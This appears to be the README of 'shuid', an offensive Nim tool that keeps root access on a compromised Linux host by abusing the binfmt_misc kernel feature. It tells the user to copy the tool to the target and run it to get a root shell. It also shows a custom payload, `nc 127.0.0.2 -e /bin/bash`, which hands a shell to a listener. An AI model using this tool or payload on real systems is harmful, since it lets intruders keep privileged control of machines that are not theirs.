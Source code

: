 <div align=center>
<img src=./29FE64AD-A0EF-4A23-8FD3-D646071A74C8.png>
<pre><code><strong>Privileged persistence 
<br>without using noisy and detectable SUID 
<br>using <i>binfmt</i> Kernel feature instead</strong>
Also a good way to learn Nim and something new
</code></pre>
</div>

## Like at home 🏡 <sup>(persistence)</sup>

* First transfer `shuid` on target
* Run it!<br><pre><code>./shuid</code></pre>

And that's all, **root shell** is obtained and process to obtain it again will be outputted 


##### More granular

You can choose which SUID will trigger your payload (`-c`). And, obviously, you can also custom the payload (`--payload`).
An example:
```shell
./shuid -c --payload "nc 127.0.0.2 -e /bin/bash"
```


## [Understand the trick](TRICK.md)


<div align=center>
<sup>
All credits goes to <a href= https://github.com/Sentinel-One/shadowsuid/>Dor Dankner</a>, <a href= https://github.com/toffan/binfmt_misc>toffan</a> and <a href= https://www.hackthebox.com/home/users/profile/590762>uco2KFH</a> 
</sup>
</div>
